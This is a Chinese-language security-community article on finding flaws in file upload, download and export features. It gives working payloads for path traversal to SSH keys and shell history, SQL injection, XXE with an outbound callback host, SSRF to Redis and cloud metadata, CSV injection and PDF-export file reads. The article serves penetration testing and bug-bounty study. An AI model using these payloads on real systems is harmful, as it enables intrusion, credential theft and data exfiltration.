# 文件上传操作漏洞场景挖掘思路-先知社区

> **来源**: https://xz.aliyun.com/news/18107  
> **文章ID**: 18107

---

## 下载读取

### 文件可疑ID遍历/注入

下载接口出现铭感信息的(自己独有的东西)有用户的汇集的地方就很可能存在漏洞

* 出现数字ID遍历,越权下载其他人文件,GET``POST皆切换尝试,利用IDOR越权,但是有鉴权字段就无效了

```
userId=19230239023923232 
NickName =232193299321324343
orderid=1989885454549549
```

* 注入思考是\*\*+1 -1\*\*,观察数值有没有被带入执行,可以是选择性数字的导入/下载数字是否带入数据库查询

[思路文章](https://mp.weixin.qq.com/s/uoAbvmhh2sKo9gUrX4LcDg)

导出Excle功能点,输入1的时候，表示导出第一列数据，此处包长为6360



在我输入2的时候表示导出前2列数据，此时包长为6364



当我输入xxx?id=2-1时，此时导出的是开始第一列1列数据，包长为6360了，这就很明显的用户可以操控拼接进SQL语句进行正则运算,所以遇到文件id 测试遍历及注入有时候也会有意想不到的惊喜

```
假设原本的 SQL 查询语句为：
SELECT column_name FROM table_name WHERE id = '用户输入的id';
```

探测到注入无过滤情况就可以构造恒真条件永远为真，导致查询返回所有记录，从而绕过了原本的查询条件，获取了所有列的数据,假设存在过滤条件就慢慢探测了，只能靠个人思路绕过

```
如果用户输入的 id 是 1' OR '1'='1，那么拼接后的 SQL 查询语句会变成：
SELECT column_name FROM table_name WHERE id = '1' OR '1'='1'';
```

### file参数下载接口任意读取

读取文件功能点接口,按照读取的文件id返回对应的文件,字段file=xxxx,同上文不同的是虽然功能也是为文件相关,但相关字段并不是idfileidinode这种明确表示依靠文件id输出文件的,而是file表示文件相关字段,此类场景不仅仅可以测试注入、越权、遍历、还可以测试任意文件读取,类似的参数还有filesname file files, 不外乎功能点,只能接口字段出现此类就可以测试,只是这种漏洞出现在操作文件读取下载场景较多,下面会介绍到利用伪协议读取场景

```
file=189839434343 //可以尝试读取
file=../../ect/passwd
```



列如apis/xxxxxxx/download?filePath=接口，于是便可以尝试任意文件读取，成功下载etc/passwd


整理好通用字典,形成自己的测试规范,遇到好的绕过Payload做好记录,





### 图片链接http://file/1.png

图片的链接形式是[http://file//xxxxx.png](http://file//2321321.png)可以测试成file//etc/passwd或者只保留[http://file](http://xn--file-8s8f920ah51arv9e)对路径无处理可能会列出该目录下所有的文件

```
http://file//a0b24dbc24f3d24530999e10e11a88c7242338c0a849d91aa0ee47369cd2b6147f.png
http://file// etc/passwd 
http://file//
```

### type类型任意文件读取

接口中出现type类型参数时,尝试读取文件,最不起眼的参数也可能隐藏着重大的安全风险,设计要文件相关的参数都需要铭感起来filename

```
GET /api/saber?type=xxxxx 
GET /api/saber?type=../../../../../../etc/passwd
```



### 400状态码任意读取

推特国外大牛挖掘遇到的情况,在路径上进行路径遍历,本以为参数带入才可以路径遍历,有时候骚的思路路径就是参数,响应包为400试试看路径遍历

```
payload:  ///////./././././etc/passwd
```



### 文件包含任意文件读取区别

文件包含会包含文件然后输出,任意文件读取只能读取



文件包含和任意文件读取都支持伪协议还有远程地址,但是文件包含一般会有漏洞文件的前缀

```
http://baidu.com/ saber.php ?name=../../../../Windows./system.ini 
saber.php
<?php
  $file=$_GET['name'];
  include($file);
?>
```

根据功能点分析这个地方会是SSRF还是任意文件读取,请求网络功能如下必须测试DNSlog

```
http://baidu.com/saber?file=htttp:sxxxxx
```

无响应办法就测试任意文件读取file协议,能读文件了就可以读其他记录IP的铭感文件,需要注意权限的问题，权限决定我们能**读取/下载文件**范围,尝试读取root/.bash\_history看自己是否有root权限,此文件只能是root用户读取它包含了root用户操作命令的记录如果没有,只能按部就班的利用../来逐层跳转读取

```
# etc/passwd记录了系统所有用户信息
http://baidu.com/saber?file=file://etc/passwd  
# /etc/shadow 是用于存储用户账户密码等安全相关信息的文件 只有root用户才能读
```

不带协议文件包含

理解http://xxxx/saber?name=etc/passwd与http://xxxxx/saber?name=file://etc/passwd之间的差异



### 任意文件读取攻防利用思路

参考文章

* <https://mp.weixin.qq.com/s/7prdLc9ml6q2chrRxdsdEQ>
* <https://mp.weixin.qq.com/s/PdFm_Y3FNDkCMrsHXcm_2w>
* <https://mp.weixin.qq.com/s/Zkw68UPDWcHBn6cayVdITg>

拿到任意读取漏洞思路先读取管理员root用户.bash\_history命令记录 ,看自己是否有root权限,此文件只能是root用户读取它包含了root用户操作命令的记录，读取此用户的登录私钥包括历史记录记录，如果用户配置了可以通过密钥登录，那么读取私匙到本地 也可以完成 登录,私匙验证的东西远程下载下来,然后可以直接拿私匙到自己电脑上去远程登录对方ssh

```
/root/.bash_history # 读取root用户历史命令可能会出现ssh私钥存储位置或其他铭感文件路径
/proc/self/status   # 当前用户运行进程状态
```

无法读取管理员.bash\_history,尝试读取/proc/self/status进程的uid和gid判断 当前用户权限



后读取/etc/password的内容对比进程知道自己是什么用户,此文本会显示系统所有的用户,搜索home /bin/zsh就是实际存在且可以登录系统的用户以及root用户



攻防中首先尝试身份去读取/root/.bash\_history,获取管理员的历史命令记录,如果读取不了代表当前并没有root权限,则寻找其他可登录的用户,以它的身份去读取文件



```
/home/saber/.zsh_history  # 读取saber用户历史命令可能会出现ssh私钥存储位置
/hoem/saber/.ssh/id_rsa  # 尝试读取普通用户默认私钥  /root/saber/.ssh/id_rsa root用户默认地址
/root/.ssh/id_rsa   # root 默认地址
```



file读取机器文件获得内网IP

Linux系统

```
/etc/hosts                包含了主机名与 IP 地址的映射关系，可能会记录内网 IP 信息
/etc/network/interfaces   存储网络接口的配置信息，其中可能包含内网 IP 地址
/proc/net/fib_trie        包含了路由表信息，从中可以获取到内网 IP 地址
~/.ssh/id_rsa             Linux系统中用户的SSH 私钥默认位置
```

Windows系统

```
类似于 Linux 系统的/etc/hosts文件，存储了主机名与 IP 地址的映射关系
C:\Windows\System32\drivers\etc\hosts：
```

常见中间件日志路径

```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

dicr协议探测内网端口读取到IP就可以这样这样爆破操作

[国光SSRF靶场探测内网](https://mp.weixin.qq.com/s/r8SSTbFgWkWbd0ILzE11zg)

如果读取到IP端口并且未授权就连接Redisdict这个协议也可以操作Redis执命令

```
dict://127/0.0.1:6379/info/  # SSR伪造协议读取redis信息
     cat /etc/hosts          #读取网络信息
```



读取或包含Redis密码记录网站存在文件包含可以 读取redis配置文件信息,或者是其他的Spring boot heapdump等




## 上传文件图片

### 路径可控覆盖文件 / 上传后无路径

一个点可以任意读取,通过读取/home/user/.bash\_history历史命令得到网址的目录地址,然后跨目录传

[参考文章](https://mp.weixin.qq.com/s/g8-xTjaQ6Q9hL09rCkgLdw)

**判断是否可控**

文件路径和文件名可控指我们选择图片上传，在请求包中/响应包就会显示出路径，我们修改路径或者文件名为自己可控的，再次发送如果成功路径代表可控





\*\*路径可控,\*\*那么可以控制整个网站的目录尝试覆盖，网站下存放的东西在前端是可以知道的，上传相同的路径相同的文件名不就可以实现覆盖了嘛)

```
1.  路径可控尝试覆盖,上传2次同一目录下不同的图片,用浏览器打开最后图片是否一致,是则无用 否则是漏洞
2.  再次上传测试../跨目录上传实现目录穿越
```

此处是上传功能,上传的参数为type,正常上传后发现响应包回显的路径是这样,路径回显了等于请求包控制了响应包的上传,



```
POST /demo/upload?type=1.jsp  // 请求包路径
 /demo/upload/home/type/1.jsp  // 响应 包路径
```

猜测type参数就是文件夹名,如果 更改为其他的就会上传到其他位置去,使用../实现跨目录上传

思路就是寻找系统的web路径，直接上传脚本getshell

```
POST /demo/upload?saber=1.jsp  // 请求包路径
/demo/upload/home/saber/1.jsp  // 响应包路径
```

**上传不可知路径**

```
1. 查看下载文件地方,下载时抓包对路径推敲
2. F12 找网站images 文件夹下是否存在路径
3. 选择图片右键新标签打开,查看此图片对应的图片路径
```

**路径推测方法**

如果响应包回显了路径可以删掉第一层然后拼接响应的目录,上传文件靶场都是这样的形式

一般单独上传后的目录都是会在这一层目录下比如

```
https://baidu.com/demo/uploa/
```

上传回显如果是saber/1.txt或是1.txt 直接拼接在后面就行,会去掉原有 一层 看很多都是这样的

```
https://baidu.com/demp/saber/1.txt
https://baidu.com/demp/1.txt
```

### OSS

**阿里云验证**

文件上传到OSS服务器过程中的三种经典验证方式

```
1. 在客户端通过JavaScript代码完成签名，然后通过表单直传数据到OSS  // 硬编码在JS中
2. 在服务端完成签名，然后通过表单直传数据到OSS
3.  在服务端完成签名，并且服务端设置了上传后回调，然后通过表单直传数据到OSS
    OSS回调完成后，再将应用服务器响应结果返回给客户端
```



**前提未上云且可以预览**不然不满足正常的文件上传,涉及到了云存储桶攻防,任何情况下，都不可以企图直接以图片后缀（.jps/.png/.gif/.jepg）命名文件并上传，这类文件里即使包含html代码或者js代码，其代码也不会被任何浏览器解析的

**任意上传不限制类型**

上传任意后缀文件都不解析,尝试上传.HTML文件写入XSS,**或上传异常后缀的文**件,写入HTML代码是很有可能得到存储XSS任意上传尝试htaccess文件 导致RCE

#### 任意文件上传/类型解析

<https://mp.weixin.qq.com/s/MEodN2cUG55rOnBMz48LqA>

阿里云任意文件上传的时候，先判断文件的路径和文件名是否可控，接着去同厂商的其他网站查找静态图片或文件，看是否可以相互转换，实现任意文件覆盖

上传图片任意上传html asp php的文件,如路径可控进行路径穿越

```
1.png --->1.php----->1.html....
static/img/img1: 存放静态资源图片等信息的服务器
```

**不做解析情况**

不做解析我们修改文件类型Content-Type为我们想要的,上传的文件是HTML PDF SVG格式 不解析但是可以预览,或许是因为这个类型没有改变,把它的东西全部作为图片去解析了,尝试更改类型

(此操作情况是上传的文件支持预览操作而不是访问后直接下载,这样才有危害)

```
Content-Type: image/jpeg    // 正常图片类型
--------------------------------------------------------
Content-Type: text/html    // HTML文档类型上传.html修改
Content-Type: application/pdf  // PDF文件格式
Content-Type: application/x-httpd-php  // PHP格式
Content-Type: application/jsp // JSP格式
Content-Type: application/xml // XML格式
```



上传后缀名还是.jpg但文件类型改为html上传成功可能会图片后缀解析html





**payload**

```
Content-Disposition: form-data; name="file"; filename="12.png"
Content-Type: text/html
<script>alert(1)</script>
```

#### 上传泄露bucket桶覆盖文件

[STStoken覆盖文件](https://mp.weixin.qq.com/s/fZMmFaaFpEc-Zz0bSg-qZg)

导入或者上传的功能点,也是上传过后响应包返回了如下数据,如不知道桶名只能源码慢慢审查,判断是哪个云厂商然后找平台文档找脚本进行应用填入对应的值,还是需要一个包一个包的找泄露

```
Bucket 桶名
tmp_secret_key
tmp_tokene
-------
secret_id=
secret_key=
```



根据文档脚本进行上传文件操作,上传的文件是在根目录下,按理



通过脚本填入对应的值,任意上传文件至网站根目录,如知晓 网站其他路径上传即可实现覆盖操作.body为上传的内容



```
// 上传脚本执行需要Py为3.0版本下
from qcloud_cos import CosConfig
from qcloud_cos import CosS3Client
import sys
import logging
# 配置日志输出
logging.basicConfig(level=logging.INFO, stream=sys.stdout)
# 填入你的密钥、ID、区域等信息
secrets_key = 'your_secret_key'
secrets_id = 'your_secret_id'
region = 'your_region'
token = ''scheme = 'https'
# 配置CosConfig
config = CosConfig(Region=region, SecretId=secrets_id, SecretKey=secrets_key, Token=token, Scheme=scheme)
# 创建CosS3Client
client = CosS3Client(config)
# 上传文件到指定存储桶
response = client.put_object(
    Bucket='your_bucket_name',  # 存储桶名称
    Key='a.txt',  # 上传文件名称
    Body='Hello, World!'  # 文件内容
)
```

### 上传Excle文件XXE

[利用Excle打XXE](https://mp.weixin.qq.com/s/WwSRLpWRVaRo3m1YDrnnAg)

<https://mp.weixin.qq.com/s/kbLLEfdHHOXbuPor-vVPkw>

创建XlSX利用压缩软件打开在,解压到桌面 在xl/workbook.xml路径下打开文件加入Payload,以下内容插入第2行和第3行，SYSTEM后面自己添加相对应的dns记录均可，可以是BP可以是DNS.log



```
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://bq5z980jwrrniaf9ox35q5fyppvgj5.burpcollaborator.net/"> ]>
<x>&xxe;</x>
```



加入Paylaod保存是现在是文件夹的形式


压缩为zip然后手动改后缀为xlsx,是两步 然后就弄好了恶意文件,切换地址就行了



有回显切换伪协议读取文件

```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>s
```

它在任何场景下都只有一种Payload,产生的地方有docx文档或xlsx指的是把xxe语句写在这些文件里面去上传访问)文件导致SSRF或本地文件读取 现在的功能点直接支持插入XXE语句的非常少

常见的XML传参的数据包

```
<?xm; version="1.0" encoding="UTF-8"?>
<stockCheck>
<productid>
2
</productid>
<storeid>
1
</storeid>
<stockCheck>
```

在语句之间插入Payload

```
Payload:
<!D0CTYPE foo [<!ENTITY % xxe system "YOUR-DTO-URL"> %xxe;]>
-----------------------------------------
<?xm; version="1.0" encoding="UTF-8"?>
//  写入 dns.log 地址
<!D0CTYPE foo [<!ENTITY % xxe system "https:baidu.com"> %xxe;]>
<stockCheck>
<productid>
2
</productid>
<storeid>
1
</storeid>
<stockCheck
```

### 上传压缩软链接任意读取文件

<https://mp.weixin.qq.com/s/w5opQqZWyCR4-V7sl5sQpg>

功能点是上传压缩包,压缩包读取里面的文件内容返回,利用这个点我们要构造它读取的文件内容是否可以重定向到其他的位置,思路还是很好的，实战场景较少可以作为拓展点

```
1. 故意上传报错信息暴露出上传后的位置
2. 对此路径进行构造,压缩包内的文件内容为软链接重定义到指定的路径位置
3. 上传后系统读取这个文件 读取到软链接后就重定向到指定的问题造成任意文件读取
```



### 上传头像/图片img可控CSRF退出

头像上传处抓包,请求包的img可控的话代表我们可以自己构造http请求;可控头像用的是外面的链接,我们抓取退出网站的请求CSRF,发送后成功添加,我们的头像就是一个代码链接,别人看到了就会加载访问.退出网站

```
1. 头像抓包确认出现img可控
2. 抓取网站退出请求get作为CSRF
3. 再次上传头像/图片 替换img标签内的链接为退出
4. 放包查看效果
```

### 上传302跳转未授权绕过401

当我们未授权上传文件(此处未授权不清楚是正常功能点还是说寻找参数构造的上传),如果响应包没有返回401状态码且进行了302跳转，原理是中间件做了统一路由处理，重定向到登录地址或某一处利用利用资源文件后缀绕过此类的限制,加入.png``.jpg



### 文件name重命名RCE

当上传一个文件的时候如果有参数可以更改文件名，出现两个文件名参数，可能调用cmd命令rename案例中执行了ping命令 但是感觉好少啊这个情况还能这样RCE



修改其中的一个文件名后面利用RCE的绕过|执行PING



### 图片大小参数可控制

上传图片width height参数可控的话,通过修改图片大小数值让服务器分配资源增加，具有拒绝服务攻击的安全隐患。使用Image Size lssues插件进行检测算是捡烂吧,观察响应包的自己数量判断



### 越权/遍历上传

上传某些东西,头像文件,上传后如果发现存在数字,尝试修改ID越权给他人上传,甚至是遍历fileid它人的上传信息,上传后文件名如第二种，可能此文件是系统经过重命名的，重命名的方式一般采用当前上传的时间戳或者当前上传的日期加随机字段，这种情况下枚举较为困难

```
https://www.xxx.com/user1/userfile.php?fileid=10001
https://www.ccc.com/user1/userfile.php?fileid=user1_name.jpg
```

## 导出文件

### CSV注入

其实此漏洞大多数SRC不会收取,因为危害大小完全是人为控制的,导出的xlsx没有被触发那么就一定没有效果,只能做到钓鱼的效果,但学习一下不是坏事,在不限制漏洞类型的众测中还是可以捡到钱的大部分人忽略了这个问题



[CSV注入详解-先知社区](https://xz.aliyun.com/news/11718)

```
=1+cmd|'/C calc'!A0   # 弹出计算机
```



### PDF导出SSRF内网

网页导出表格或者html文档为PDP或者图片JPG,只要抓包存在https以先测试H1标签.如果导出的PDF出现了标签代表解析HTML标签使用iframe标签新开窗测试解析DNS,只要对外发出请求了DNS收到响应,那么代码里面再嵌入内网地址读取也是SSRF再尝试file协议读取文件

<https://mp.weixin.qq.com/s/ZfyJgZbuw58qK7TjjKEdmg>

相关组件及业务场景尝试

[从PDF导出到SSRF](https://mp.weixin.qq.com/s/ZfyJgZbuw58qK7TjjKEdmg)



* 导出PDF文件或者其他文件内容可控
* 解析HTML

导出场景



出现代码手动插入payload,插入后等待DNS响应,响应成功代表是有SSRF请求了,再利用伪协议读取文件

```

# file协议读文件
<iframe src="file:///etc/passwd" width=400height=400/>
```



完整的攻击文章,从导出探测到可控之后尝试读取内网再读取内网文件,但亮点是正常是通过iframe标签但这里使用的JS代码读取,之后读取的文件内容会导出到PDF

[XSS到任意文件读取](https://mp.weixin.qq.com/s/1jQeyvR1DsIvjNf7NV3Tzg)

导出PDF通过请求file协议读取文件,javascript将在服务器端执行，通过注入以下 代码从文件系统进行文件的读取

```
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open('GET','file:///etc/passwd');
x.send();
</script>
```





**绕过**

当一些特殊标签比如<svg>,<Iframe>等被禁用后，我们可以使用<meta>0秒刷新请求元数据绕过方式

看不懂这个方式,不过也是插入下面的语句到导出的功能,之后的PDF就会带出内网信息

```
<meta http-equiv="refresh" content="0;url=http://metadata.tencentyun.com/latest/meta-data" />
```





### 未授权导出CSRF+邮箱接收

功能点导出信息会被发送到指定的邮箱进行接收,邮箱发送地址可控,导出文件也会有数据包链接,如果导出没有校验,我们把导出的请求做成CSRF给受害者,地址为攻击者,这样受害者在登录状态下点击执行了导出的请求,那么个人就发送到攻击者的邮箱上,拓展想一下的话并不是导出这个地方可以,比如邀请、发送、铭感信息的交互给第三方,无Token鉴权功能都可以尝试CSRF打出组合的效果



### 导出置空参数

公众号学习到的思路也是采取了模糊查询手法,涉及到用户场景都可以尝试置空或%往往会有意想不到的效果,


